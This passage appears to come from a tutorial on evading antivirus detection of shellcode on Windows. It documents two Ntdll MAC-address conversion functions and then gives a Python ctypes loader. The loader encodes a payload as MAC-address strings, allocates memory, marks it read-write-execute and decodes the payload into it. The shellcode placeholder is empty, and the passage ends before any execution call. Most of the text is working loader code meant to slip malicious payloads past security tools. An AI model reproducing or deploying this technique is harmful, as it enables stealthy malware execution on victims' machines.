 ​ The API function requires two parameters. The first parameter is an Ethernet address in binary format; the second parameter is a pointer to the buffer, which is used to store the `NULL` terminating string representation of the Ethernet address, and the size of this buffer should be sufficient to accommodate at least `18` characters. Note that the return value is a pointer to the `NULL` character inserted at the end of the string representation of the Ethernet `MAC` address.

- `RtlEthernetStringToAddressA`: `RtlEthernetStringToAddress` function converts the string representation of the Ethernet `MAC` address into a binary format of the Ethernet address.

```c++
NTSYSAPI NTSTATUS RtlEthernetStringToAddressA(
  [in] PCSTR S,
  [out] PCSTR *Terminator,
  [out] DL_EUI48 *Addr
);
```

​ This `API` function can convert the string of the previously converted Ethernet `MAC` address into `shellcode` and write it into memory. The API function requires three parameters. The first parameter is a pointer to a buffer containing the `NULL` terminating string representation of the Ethernet `MAC` address; the second parameter is used to receive a pointer to a character that terminates the conversion string; the third parameter is a pointer, storing the binary representation of the Ethernet `MAC` address.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
MAC memory loading
"""
import ctypes

shellcode = b''
if len(shellcode) % 16 != 0:
    null_byte = b'\x00' * (16 - len(shellcode) % 16)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 6 * 17))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 6 * 17, len(shellcode) // 6 * 17)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1,
ctypes.c_int(len(shellcode) // 6 * 17), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 6):
    bytes_shellcode = shellcode[i * 6: 6 + i * 6]
    ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 17)

mac_list = []
for i in range(len(shellcode) // 6):
    mac = ctypes.string_at(ptr_realloc_1 + i * 17, 17)
    mac_list.append(mac)
print(mac_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(mac_list) * 6))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(mac_list) * 6, len(mac_list) * 6)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(mac_list) * 6), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(mac_list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(mac_list[i], mac_list[i], rwxpage)
    rwxpage += 6

```